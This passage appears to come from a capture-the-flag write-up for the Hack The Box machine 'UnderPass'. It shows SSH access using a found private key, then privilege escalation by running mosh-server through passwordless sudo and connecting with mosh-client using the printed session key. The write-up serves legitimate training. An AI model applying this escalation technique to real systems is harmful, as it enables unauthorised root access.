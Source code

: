 We noticed that there was an  `id_rsa` private key located in the `.ssh` folder, and it worked like a charm:

```bash
┌─[george@parrot]─[~/htb/lvl1/underPass]
└──╼ $ssh -i mosh.id svcMosh@underpass.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

[SNIP]
```

Now we were able read the `user.txt` to get the user flag, but we also needed to find a way to perform privilege escalation to the `root` user. It's a common practice to execute the command `sudo -l` to see what permissions the user has on the server, what commands can run using `sudo` and if there is a need for a password or not.

```bash
svcMosh@underpass:~/.ssh$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

```

We noticed that we could execute `/usr/bin/mosh-server` using `sudo` without a password. I didn't know what the **Mosh Server** was, and I did some digging. I found that [GitHub repository](https://github.com/mobile-shell/mosh), and after some reading I understood that after the server is initiated, you need to have a `mosh-client` that lets connect on the server using the `session key` that is generated when the server starts.

```
svcMosh@underpass:~$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 3wHF0ozytjaZVqWqj8h0TQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1676]

svcMosh@underpass:~$ mosh-client --help
mosh-client (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Usage: mosh-client [-# 'ARGS'] IP PORT
       mosh-client -c

svcMosh@underpass:~$ MOSH_KEY=3wHF0ozytjaZVqWqj8h0TQ mosh-client 127.0.0.1 60001
```
